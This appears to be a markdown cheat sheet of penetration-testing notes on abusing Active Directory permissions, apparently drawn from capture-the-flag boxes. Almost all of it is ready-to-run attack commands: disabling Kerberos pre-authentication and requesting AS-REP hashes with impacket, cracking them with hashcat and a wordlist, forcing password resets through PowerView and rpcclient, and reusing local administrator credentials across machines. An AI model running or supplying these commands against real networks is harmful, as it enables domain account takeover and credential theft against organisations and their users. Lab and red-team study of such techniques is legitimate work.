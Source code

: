 ```bash
# writedacl, account operator
## exploit, check bloodhunter
## 1) add user, add to group 2) powerview add-domainobjectacl 3) dump hash

```

#### GenericWrite On User
+ set spn to kerberoast
+ set preauth to asrepoast

```bash
# kerberoast


# asrepoast 
## set-AdAccountcontrol to  asreproast
Get-ADUser Jorden | Set-ADAccountControl -DoesNotRequirePreAuth $true

## impacket exploit
GetNPUsers.py 'megacorp/jorden' -request

## crack
hashcat --example-hashes | grep krb5asrep -C 20
hashcat -m 18200 multimaster-jorden.asrephash ../rockyou.txt
```

#### ForceChangePassword
+ If we have ExtendedRight on User-Force-Change-Password object type, we can reset the user's password without knowing their current password:

```bash
# check the property
## Object type: User-Force-Change-Password
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}

# powerview reset password
Set-DomainUserPassword -Identity delegate -Verbose

## powerview one-liner, if no interactive session is not available
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# rpcclient reset
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```


### Creds reuse
+ If you have the hash or password of a local administrator you should try to login locally to other PCs with it.
